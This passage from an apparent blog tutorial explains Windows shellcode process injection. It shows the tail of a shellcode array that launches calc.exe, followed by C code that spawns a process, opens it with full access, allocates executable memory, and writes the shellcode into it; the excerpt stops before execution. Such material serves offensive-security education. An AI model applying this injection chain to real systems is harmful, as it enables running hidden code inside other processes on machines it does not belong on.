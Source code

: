 ```c
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
"\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c"
"\x63\x2e\x65\x78\x65\x00";
```

### 2. &#119135; &#119136; Allocate, Write, Inject, Repeat &#119137; &#119137;

First things first. We need to spawn a new process to inject into. To spawn a new process, we can use the `CreateProcessA` function contained in `kernel32.dll`. We only need a few basic parameters to start a new instance of `calc.exe`.

```c
//holds information about the newly created process, like: process ID, main thread ID, and handles
PROCESS_INFORMATION pi;
//specifies the window station, desktop, standard handles, and appearance of the main window for a process at creation time
STARTUPINFO si;

//set the memory to 0
memset(&si, 0, sizeof(si));
memset(&pi, 0, sizeof(pi));

//create a new instance of windows calculator
CreateProcessA("C:\\Windows\\System32\\calc.exe", NULL, NULL, NULL, FALSE, NULL, NULL, NULL, &si, &pi);
```

To use our newly spawned process, we need to obtain a handle to it. We can use the `OpenProcess` function contained in `kernel32.dll`. For the sake of keeping this blogpost somewhat short (who am I kidding), we will assume we know the process ID (PID) of our `calc.exe` process. In practice I utilise code to enumerate all the running processes on the machine until I have found `calculator.exe`.

```c
DWORD pid = 6969; //calc.exe
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
```

Armed with the process handle, we can now allocate some memory, which we will later use to write our shellcode to. To do this, we use the `VirtualAllocEx` function contained in `kernel32.dll`. It is important to specify `PAGE_EXECUTE_READWRITE`, so we later have permission to execude the code located in this memory block. By default, memory that is writeable is not executable and vice versa.

```c
LPVOID shellcode_address = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

The final step before execution, is writing our shellcode to the memory block we just allocated in the target process. To do this, we use the `WriteProcessMemory` function contained in `kernel32.dll`.

```c
WriteProcessMemory(hProcess, shellcode_address, shellcode, sizeof(shellcode), NULL);
```
